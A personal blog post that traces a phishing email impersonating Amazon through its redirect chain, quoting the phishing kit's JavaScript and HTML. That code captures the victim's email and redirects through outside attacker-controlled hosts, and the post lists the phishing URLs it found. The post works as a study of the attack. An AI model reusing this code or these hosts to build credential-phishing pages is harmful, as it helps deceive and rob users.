 ```yaml
---
date: "2018-12-28"
title: "Phishing"
category: "Hacking"
---
```

![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/phishing.jpg)

Today I received an interesting phishing email.
<br />
I did the research and found out it's actually a good learning opportunity,
since attacker's server demonstrates excellent practice in network security.
<br />
Today's goal is to attack phishing server by mimicking victims.
<br />
### Email content
<b>TITLE:</b> RE: Wrn ,protect your sensitive data from unauthorized access
<br />
<b>FROM:</b> goer.vassaux05@ingame.de
<br />
![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/email.jpg)
<br />
As you can see, the attacker just attached a copy image to mimic Amazon site.
<br />

### Verification Process
#### Microservice
By clicking 'log in', the victim would be navigated to "http://karet1nagut4zinat2a.myvnc.com/Lzmvejr9/9VRl0.html?e=user@domain.com&A3zj864z4g4h=Yku8nhrrI24"
<br /> 
P.S. Before doing this, we need to set up proxies on Chrome and Postman since attacker's server will block client by IP address.
<br />
<br />
And the response is pure JavaScript code as following
```js
<script type="text/javascript">
function getUrlVars() {
var vars = {};
var parts = window.location.href.replace(/[?&]+([^=&]+)=([^&]*)/gi, function(m,key,value) {
vars[key] = value;
});
return vars;
}
var email = getUrlVars()["e"];

document.write('
    <script type="text/javascript" src="ip-email.php?email='+ email +'"><\/script>');



    </script>
    <script type="text/javascript">

window.location = 'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/XIUKBYXj/c.php?click=yes&acc=yes&data=6bdP07fjlZU&e=' + email;

</script>
```
> <b>This process seems redundant. Why does the server need an extra redirect logic ?</b>
<br />
Once you look at the redirect URL, you would find out the server is a microservice with auto-generated host name.

Such a beautiful design !!
<br />
The attacker leveraged 'serverless' concept and used that to avoid direct attack.
I guess the domain name would switch time to time within a sub-net system.
<br />
#### Cookie
After making GET request to the redirect server, I received an empty response.
But, I got 'Set-Cookie' key in the response header.
![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/cookie.jpg)
> OK, I guess this is a typical security practice. Good Job, attacker.
<br />
Then we need to use this cookie to personate the victim in later requests.

By using 'Link Redirect Trace' Chrome extension, I found there should be one more redirect.
One GET request to 
'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/XIUKBYXj/6bdP07fjlZU/de/smart.html'
<br />
And then the response was
```js
<meta HTTP-EQUIV='REFRESH' content='0; url=/XIUKBYXj/6bdP07fjlZU/slsE7oEhpngamqHFQpNhvh7HJSAASj/do.html?id=FVtbYxvrAkxwH8DUr4b5ml5gCTccpJkrP6NlJxDo'>
```
> Hmmm...using meta tag to redirect to target URL

After redirect, I got
```html
<title>Amazon</title>
<link rel="shortcut icon" href="files-aws/favicon.ico" type="image/x-icon">
<frameset>
    <frame src="/2VC1vaJC/6bdP07fjlZU/F7QCiIcGJe85mphq3T0hQb2gETrByt/iframe.php">

    </frameset>
```
Making one more GET request to 'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/2VC1vaJC/6bdP07fjlZU/F7QCiIcGJe85mphq3T0hQb2gETrByt/iframe.php'

and I got
```html
<script type="text/javascript">
	if (parent.frames.length > 0){
        top.location.replace(document.location);
	}</script>
<meta HTTP-EQUIV="REFRESH" content="0; url=do.html.">
```

> I was thrilled by this result. Its about to make login request

### Client Puzzle Protocol (CPP)
> CPP is one type of protocol which fights against DDoS / DoS attacks

I was really amazed by how sophisticated the defense is here.
After making the call to 'iframe.php', I got a puzzle in Javascript code and 
this is typical CPP which protects attacker's server from DoS attacks.

Then I stopped from this point since I didn't wanna spend more time on this puzzle script.
I saw a function called 'AES' and it could possibly a 
<a href="https://en.bitcoin.it/wiki/Proof_of_work"><b>[proof of work]</b></a> kind of puzzle,
in which clients need to guess the token by hashing the key again and again until it matches.

### Summary
From this research, I found I have more things to learn and somehow respect those hackers
who sent phishing mails and had set up these amazing security measurement to protect themselves from another hackers.